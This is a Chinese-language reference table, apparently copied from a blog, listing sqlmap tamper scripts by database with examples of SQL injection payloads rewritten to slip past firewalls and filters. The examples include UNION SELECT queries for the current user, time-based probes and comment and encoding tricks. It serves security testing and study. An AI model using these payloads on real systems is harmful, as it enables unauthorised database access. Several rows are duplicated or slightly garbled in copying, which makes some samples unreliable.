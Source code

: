 https://blog.csdn.net/hxsstar/article/details/22782627
支持的数据库	编号	脚本名称	作用	实现方式
all	1	apostrophemask.py	用utf8代替引号	("1 AND '1'='1") 
'1 AND %EF%BC%871%EF%BC%87=%EF%BC%871' 
2	base64encode.py 	用base64编码替换	("1' AND SLEEP(5)#")
'MScgQU5EIFNMRUVQKDUpIw=='
3	multiplespaces.py	围绕SQL关键字添加多个空格	('1 UNION SELECT foobar')
'1    UNION     SELECT   foobar'
4	space2plus.py	用+替换空格	('SELECT id FROM users')
'SELECT+id+FROM+users'
5	nonrecursivereplacement.py	双重查询语句。取代predefined SQL关键字with表示 
suitable for替代（例如  .replace（“SELECT”、”")） filters	('1 UNION SELECT 2--')
'1 UNIOUNIONN SELESELECTCT 2--'
6	space2randomblank.py	代替空格字符（“”）从一个随机的空
白字符可选字符的有效集	('SELECT id FROM users')
'SELECT%0Did%0DFROM%0Ausers'
7	unionalltounion.py	替换UNION ALL SELECT UNION SELECT	('-1 UNION ALL SELECT')
'-1 UNION SELECT'
8	securesphere.py	追加特制的字符串	('1 AND 1=1')
"1 AND 1=1 and '0having'='0having'"
mssql	1	space2hash.py	绕过过滤‘=’ 替换空格字符（”），（’ – ‘）后跟一个破折号注释，一个随机字符串和一个新行（’ n’）	
'1 AND 9227=9227' 
'1--nVNaVoPYeva%0AAND--ngNvzqu%0A9227=9227' 
2	equaltolike.py	like 代替等号	
* Input: SELECT * FROM users WHERE id=1 
2 * Output: SELECT * FROM users WHERE id LIKE 1 
3	space2mssqlblank.py(mssql)	空格替换为其它空符号	Input: SELECT id FROM users
Output: SELECT%08id%02FROM%0Fusers
4	space2mssqlhash.py	替换空格	('1 AND 9227=9227')
'1%23%0AAND%23%0A9227=9227'
5	between.py	用between替换大于号（>）	('1 AND A > B--')
'1 AND A NOT BETWEEN 0 AND B--'
6	percentage.py	asp允许每个字符前面添加一个%号	* Input: SELECT FIELD FROM TABLE
* Output: %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E
7	sp_password.py	追加sp_password’从DBMS日志的自动模糊处理的有效载荷的末尾	('1 AND 9227=9227-- ')
'1 AND 9227=9227-- sp_password'
8	charencode.py	url编码	* Input: SELECT FIELD FROM%20TABLE
* Output: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45
9	randomcase.py	随机大小写	* Input: INSERT
* Output: InsERt
10	charunicodeencode.py	字符串 unicode 编码	* Input: SELECT FIELD%20FROM TABLE
* Output: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′
11	space2comment.py	Replaces space character (‘ ‘) with comments ‘/**/’	* Input: SELECT id FROM users
* Output: SELECT//id//FROM/**/users
mysql >= 5.1.13	1	equaltolike.py	like 代替等号	
* Input: SELECT * FROM users WHERE id=1 
2 * Output: SELECT * FROM users WHERE id LIKE 1 
2	greatest.py	绕过过滤’>’ ,用GREATEST替换大于号。	('1 AND A > B')
'1 AND GREATEST(A,B+1)=A'
3	apostrophenullencode.py	绕过过滤双引号，替换字符和双引号。	tamper("1 AND '1'='1")

'1 AND %00%271%00%27=%00%271'
4	ifnull2ifisnull.py	绕过对 IFNULL 过滤。
替换类似’IFNULL(A, B)’为’IF(ISNULL(A), B, A)’	('IFNULL(1, 2)')
'IF(ISNULL(1),2,1)'
5	space2mssqlhash.py	替换空格	('1 AND 9227=9227')
'1%23%0AAND%23%0A9227=9227'
6	modsecurityversioned.py	过滤空格，包含完整的查询版本注释	('1 AND 2>1--')
'1 /*!30874AND 2>1*/--'
7	space2mysqlblank.py	空格替换其它空白符号(mysql)	Input: SELECT id FROM users
Output: SELECT%0Bid%0BFROM%A0users
8	between.py	用between替换大于号（>）	('1 AND A > B--')
'1 AND A NOT BETWEEN 0 AND B--'
9	modsecurityzeroversioned.py	包含了完整的查询与零版本注释	('1 AND 2>1--')
'1 /*!00000AND 2>1*/--'
10	space2mysqldash.py	替换空格字符（”）（’ – ‘）后跟一个破折号注释一个新行（’ n’）	('1 AND 9227=9227')
'1--%0AAND--%0A9227=9227'
11	bluecoat.py	代替空格字符后与一个有效的随机空白字符的SQL语句。
然后替换=为like	('SELECT id FROM users where id = 1')
'SELECT%09id FROM users where id LIKE 1'
12	percentage.py	asp允许每个字符前面添加一个%号	* Input: SELECT FIELD FROM TABLE
* Output: %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E
13	charencode.py	url编码	* Input: SELECT FIELD FROM%20TABLE
* Output: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45
14	randomcase.py	随机大小写	* Input: INSERT
* Output: InsERt
15	versionedkeywords.py	Encloses each non-function keyword with versioned MySQL comment	* Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#
* Output: 1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS**!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#
16	space2comment.py	Replaces space character (‘ ‘) with comments ‘/**/’	* Input: SELECT id FROM users
* Output: SELECT//id//FROM/**/users
17	charunicodeencode.py	字符串 unicode 编码	* Input: SELECT FIELD%20FROM TABLE
* Output: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′
18	versionedmorekeywords.py	注释绕过	* Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))#
* Output: 1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS**!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))#
MySQL < 5.1	19	halfversionedmorekeywords.py	关键字前加注释	* Input: value’ UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND ‘QDWa’='QDWa
* Output: value’/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)), NULL, NULL#/*!0AND ‘QDWa’='QDWa
20	halfversionedmorekeywords.py	当数据库为mysql时绕过防火墙，每个关键字之前添加
mysql版本评论	1.("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa")
2."value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa"
MySQL >= 5.1.13	21	space2morehash.py	空格替换为 #号 以及更多随机字符串 换行符	* Input: 1 AND 9227=9227
* Output: 1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227
 Oracle	1	greatest.py	绕过过滤’>’ ,用GREATEST替换大于号。	('1 AND A > B')
'1 AND GREATEST(A,B+1)=A'
2	apostrophenullencode.py	绕过过滤双引号，替换字符和双引号。	tamper("1 AND '1'='1")

'1 AND %00%271%00%27=%00%271'
3	between.py	用between替换大于号（>）	('1 AND A > B--')
'1 AND A NOT BETWEEN 0 AND B--'
4	charencode.py	url编码	* Input: SELECT FIELD FROM%20TABLE
* Output: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45
5	randomcase.py	随机大小写	* Input: INSERT
* Output: InsERt
6	charunicodeencode.py	字符串 unicode 编码	* Input: SELECT FIELD%20FROM TABLE
* Output: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′
7	space2comment.py	Replaces space character (‘ ‘) with comments ‘/**/’	* Input: SELECT id FROM users
* Output: SELECT//id//FROM/**/users
 PostgreSQL	1	greatest.py	绕过过滤’>’ ,用GREATEST替换大于号。	('1 AND A > B')
'1 AND GREATEST(A,B+1)=A'
2	apostrophenullencode.py	绕过过滤双引号，替换字符和双引号。	tamper("1 AND '1'='1")

'1 AND %00%271%00%27=%00%271'
3	between.py	用between替换大于号（>）	('1 AND A > B--')
'1 AND A NOT BETWEEN 0 AND B--'
4	percentage.py	asp允许每个字符前面添加一个%号	* Input: SELECT FIELD FROM TABLE
* Output: %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E
5	charencode.py	url编码	* Input: SELECT FIELD FROM%20TABLE
* Output: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45
6	randomcase.py	随机大小写	* Input: INSERT
* Output: InsERt
7	charunicodeencode.py	字符串 unicode 编码	* Input: SELECT FIELD%20FROM TABLE
* Output: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′
8	space2comment.py	Replaces space character (‘ ‘) with comments ‘/**/’	* Input: SELECT id FROM users
* Output: SELECT//id//FROM/**/users
Access	1	appendnullbyte.py	在有效负荷结束位置加载零字节字符编码	('1 AND 1=1')
'1 AND 1=1%00'
其他	 	chardoubleencode.py	双url编码(不处理以编码的)	* Input: SELECT FIELD FROM%20TABLE
* Output: %2553%2545%254c%2545%2543%2554%2520%2546%2549%2545%254c%2544%2520%2546%2552%254f%254d%2520%2554%2541%2542%254c%2545
 	unmagicquotes.py	宽字符绕过 GPC  addslashes	* Input: 1′ AND 1=1
* Output: 1%bf%27 AND 1=1–%20
 	randomcomments.py	用/**/分割sql关键字